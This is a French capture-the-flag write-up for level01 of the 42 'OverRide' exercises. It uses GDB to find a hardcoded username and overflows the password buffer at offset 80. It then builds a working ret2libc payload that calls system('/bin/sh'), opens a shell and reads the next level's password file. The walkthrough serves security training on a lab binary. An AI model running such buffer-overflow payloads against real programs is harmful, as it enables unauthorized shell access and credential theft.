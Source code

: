 # Override
Override 42 security lvl 1

```
objdump -M intel -d level01
```

On observe un main et 2 fonctions : verify_user_pass ainsi que verify_user_name.
On transforme l'assembleur en code plus lisible, en C.

Exemple afin de récupérer les valeurs que l'on utilise dans le script C:
```
# Oui c'est très long et penible, je débute en débug GDB :3

gdb ./level01
b verify_user_name
r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: test

disass

b *0x0804848d
Breakpoint 2 at 0x804848d

continue

info registers

x/s $eax
x/s $edx
```

Dans le cas montré au dessus. On s'interesse au strncmp que fait la fonction verify_user_name.
On observe donc que ce qui est comparé est la valeur que j'ai rentré sur stdin ainsi que le mot "dat_wil".

On essaie de se log avec dat_wil comme username, ca marche en revanche le mot de passe "admin" ne marche pas.

On va donc essayer de faire overflow le mot de passe.

```
# https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
python -c 'print "dat_wil\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"' > /tmp/lvl01
(gdb) r < /tmp/lvl01
Starting program: /home/users/level01/level01 < /tmp/lvl01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 80
```
On trouve donc l'eip qui est à l'offset 80.
On a aucun appel systeme, on en deduis donc qu'il faut reussir à appeller notre shell.
On utilise ici une attaque nommée ret2libc.
L'idée est d'au lieu comme j'avais fait dans rainfall et d'appeler un shell, on va utiliser le shell system qui est present dans le programme.


```
# trouvons l'adresse du system
gdb ./level01
b * main
p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

# Trouvons l'adresse de /bin/sh
(gdb) info proc map
process 2205
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
	 0x804b000  0x806c000    0x21000        0x0 [heap]
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.

# Enfin une adress de retour
gdb ./level01
disass main
   0x080485b5 <+229>:	ret
```

Donc cela donne:
script de la forme : ([login] ; [Padding]) ; [system] ; [retour] ; [bin sh]

```
level01@OverRide:~$ (python -c 'print "dat_wil" + "\x0a" + "A"*80 + "\xd0\xae\xe6\xf7" + "\xb5\x85\x04\x08" + "\xec\x97\xf8\xf7" + "\x0a"' ; cat ) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
